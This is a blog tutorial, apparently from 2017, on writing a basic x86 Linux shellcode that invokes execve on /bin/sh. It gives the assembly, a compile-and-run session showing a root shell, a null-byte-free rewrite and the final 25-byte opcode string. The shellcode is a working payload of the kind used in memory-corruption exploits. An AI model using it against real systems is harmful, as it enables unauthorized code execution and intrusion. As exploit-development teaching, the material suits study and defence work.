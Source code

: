```yaml
---
layout: post
title:  "Creating a simple x86 shellcode"
date:   2017-09-17 01:51:00
disqus: true
categories: Reversing
---
```

It's a simple x86 shellcode to call /bin/sh, but the first thing is understand how the sys_execve works, to do so you can access this <a href="https://syscalls.kernelgrok.com/" target="_blank">site</a> that gives to you a list with all the x86 syscalls, and the values you need to put in each register, just search for sys_execve.

The initial code bellow have all the comments to make it easy to understand how to use the sys_execve,

{% highlight Bash %}
section .data:
	cmd: db "/bin/sh",0x0
section .text:
	global _start
	_start:
		mov eax,0x0b	;use sys_execve
		mov ebx,cmd	;first arg, file to execute
		mov edx,0x0	;first parameter no usage
		mov ecx,0x0	;second parameter no usage
		int 0x80	;kernel interrupt
{% endhighlight %}

Just to test this code, lets compile it, link and execute the binary shell to get the /bin/sh

{% highlight Bash %}
root@demoniware:~/shellcode# nasm -f elf32 sh3llc0d3.asm && ld -m elf_i386 -s -o shell sh3llc0d3.o
root@demoniware:~/shellcode# ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

But this code is not nullbyte free and it's a problem when we are working with shellcodes, so with some work I got this code,

{% highlight Bash %}
xor eax,eax ;zero to eax
push eax ;put 0 in stack, end of string
push 0x68732f6e ; part of /bin/sh
push 0x69622f2f ; part of /bin/sh
mov ebx,esp; mov /bin/sh to ebx
push eax; put NULL on argv
push ebx; put filename on stack
mov ecx, esp; put filename to ecx
xor edx,edx; envp = NULL
mov al,0x0b; 0x0b to call sys_execve
int 0x80; kernel interrupt
{% endhighlight %}

To confirm if my code is free of nullbytes, I used this site <a href="https://defuse.ca/online-x86-assembler.htm#disassembly" target="_blank">defuse.ca</a>, that translate asm instructions to opcodes or just use objdump, and now I have a shellcode free of nullbytes with 25 bytes because the shellcode does not need the prologue

{% highlight Bash %}
\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80
{% endhighlight %}

### Thanks to @thiagopeixoto for the help
